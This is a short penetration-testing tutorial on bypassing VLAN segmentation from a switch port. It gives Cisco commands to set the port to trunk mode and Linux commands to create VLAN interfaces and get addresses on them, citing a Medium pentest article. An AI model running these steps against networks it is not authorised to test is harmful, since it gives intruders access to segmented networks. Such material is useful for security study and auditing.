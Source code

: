**Lateral VLAN Segmentation Bypass**

If direct access to a switch is available, VLAN segmentation can be bypassed. This involves reconfiguring the connected port to trunk mode, establishing virtual interfaces for target VLANs, and setting IP addresses, either dynamically (DHCP) or statically, depending on the scenario **(for further details check ([https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9]) ).**

Initially, identification of the specific connected port is required. This can typically be accomplished through CDP messages, or by searching for the port via the **include** mask.

**If CDP is not operational, port identification can be attempted by searching for the MAC address:**


            SW1(config)# show mac address-table | include 0050.0000.0500
            
Prior to switching to trunk mode, a list of existing VLANs should be compiled, and their identifiers determined. These identifiers are then assigned to the interface, enabling access to various VLANs through the trunk. The port in use, for instance, is associated with VLAN 10.


            SW1# show vlan brief
            
**Transitioning to trunk mode entails entering interface configuration mode:**


           SW1(config)# interface GigabitEthernet 0/2
           SW1(config-if)# switchport trunk encapsulation dot1q
           SW1(config-if)# switchport mode trunk
           Switching to trunk mode will temporarily disrupt connectivity, but this can be restored subsequently.
           

Virtual interfaces are then created, assigned VLAN IDs, and activated:


           sudo vconfig add eth0 10
           sudo vconfig add eth0 20
           sudo vconfig add eth0 50
           sudo vconfig add eth0 60
           sudo ifconfig eth0.10 up
           sudo ifconfig eth0.20 up
           sudo ifconfig eth0.50 up
           sudo ifconfig eth0.60 up
           
Subsequently, an address request is made via DHCP. Alternatively, in cases where DHCP is not viable, addresses can be manually configured:


           sudo dhclient -v eth0.10
           sudo dhclient -v eth0.20
           sudo dhclient -v eth0.50
           sudo dhclient -v eth0.60
           
Example for manually setting a static IP address on an interface (VLAN 10):


           sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
           
Connectivity is tested by initiating ICMP requests to the default gateways for VLANs 10, 20, 50, and 60.

Ultimately, this process enables bypassing of VLAN segmentation, thereby facilitating unrestricted access to any VLAN network, and setting the stage for subsequent actions.

**References**
              ([https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9])
